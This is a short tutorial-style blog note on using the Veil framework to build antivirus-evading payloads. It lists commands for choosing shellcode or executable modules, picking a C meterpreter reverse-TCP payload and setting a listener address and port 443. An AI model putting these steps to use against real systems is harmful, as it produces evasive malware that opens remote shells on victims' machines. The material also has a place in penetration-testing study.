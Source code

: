 ```yaml
---
layout: post
title: Veil
titledate: 09/10/23
tags: ["infosec","offsec", "exploit", "evasion", "shell", "veil"]
---
```


#### Evading AV

Veil is a framework that offers us a lot of options to generate shellcode and executables with the goal of evading AV

It can be used to generate shellcode

    $ use Ordnance

    $ list

Or executables

    $ use Evasions

    $ list

to display the shellcode options of the script 

    $ c/meterpreter/rev_tcp.c

and to select the type

    $ use 7

then set the arguments

    $ set lhost 192.168.x.x
    $ set lport 443

here is a nice post describing some functionality and options 

https://vk9-sec.com/how-to-use-veil-to-create-payloads/

